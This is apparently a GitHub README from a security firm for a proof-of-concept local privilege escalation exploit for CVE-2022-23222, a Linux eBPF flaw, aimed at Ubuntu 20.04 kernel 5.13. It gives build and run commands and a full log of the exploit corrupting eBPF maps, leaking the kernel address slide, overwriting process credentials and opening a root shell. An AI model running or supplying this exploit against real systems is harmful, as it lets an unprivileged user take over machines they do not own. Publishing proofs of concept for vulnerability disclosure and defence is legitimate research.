 # Proof of Concept Exploit Code for CVE-2022-23222
This is a POC for CVE 2022-23222, a Local Privilege Escalation vulnerability.
This POC was written for Ubuntu 20.04 with kernel version 5.13.0-27-generic, but other kernel versions are also vulnerable.
For a detailed analysis of the exploit, please read our [write-up](https://www.pentera.io/blog/the-good-bad-and-compromisable-aspects-of-linux-ebpf/).
## Usage
Make sure `libbpf` is installed as it is a requirement for the exploit.
To compile the POC, run the following command:
```
make
```
To execute the expolit, run the following executable:
```
./exploit
[+] eBPF enabled, ringbuf created!
[!] staring to create new maps until we get two consecutive maps
[+] created map 1
[+] generated random value: f2dec021c4bb41b7
[+] created map 2
[+] generated random value: 3d247a46c6ed75e4
[+] two new maps created!
[+] value read from slab: 0
[+] value read from slab: 0
[+] created map 3
[+] generated random value: 3214fb323b506766
[+] created map 4
[+] generated random value: 909d65f4ebe3bc9a
[+] eBPF enabled, maps created!
[+] value read from slab: 0
[+] value read from slab: 0
[+] created map 5
[+] generated random value: 6bd18dfb510e1f0f
[+] created map 6
[+] generated random value: 8bd7c8e518387c75
[+] eBPF enabled, maps created!
[+] value read from slab: 3214fb323b506766
[+] aligned map found in map 2
1: 6bd18dfb510e1f0f
2: 3214fb323b506766
[+] closing unnecessary_maps
[+] found map address: 0xffff94d44cf48800
[+] overriding map_ops
[+] detected kernel slide 11200000
[+] setting spin_lock = 0
[+] setting max_entries = 0xffffffff
[+] setting map_type = BPF_MAP_TYPE_STACK
[+] getting root
[+] iterating over task_struct list to find out process
[+] got it!
[+] cleaning up
[+] getting shell!
#
```
## DISCLAIMER
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis and may contain bugs, errors, and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Pentera shall have no liability to you for any claims in
connection with the Code. Pentera disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Pentera or its related parties are advised of the possibility of
such damages. Pentera undertakes no duty to update the Code or this
advisory.
